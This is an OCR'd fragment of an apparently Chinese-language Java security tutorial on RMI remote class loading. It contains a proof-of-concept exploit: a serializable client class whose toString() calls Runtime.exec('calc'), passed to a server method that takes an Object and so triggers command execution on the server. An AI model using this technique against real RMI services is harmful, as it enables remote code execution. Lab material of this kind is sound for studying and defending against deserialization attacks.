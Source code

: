 ```java
System.setProperty("java.rmi.server.codebase", "http://127.0.0.1:9999/");
System.setProperty("java.security.policy", RMIServer.class.getClassLoader().getResource("rmi.policy").toString());
if (System.getSecurityManager() == null) {
    System.setSecurityManager(new RMISecurityManager());
}
```

客户端自定义一个类

```java
import java.io.IOException;
import java.io.Serializable;

public class ClientObject implements Serializable {
    @Override
    public String toString() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        return "hacked";
    }
}
```

换一下接口

```java
@Override
public String sayHello(Object s) throws RemoteException {
    System.out.println("sayHello Called");
    return "Hello " + s;
}
```

![image-20231012171338868](./../.gitbook/assets/image-20231012171338868.png)
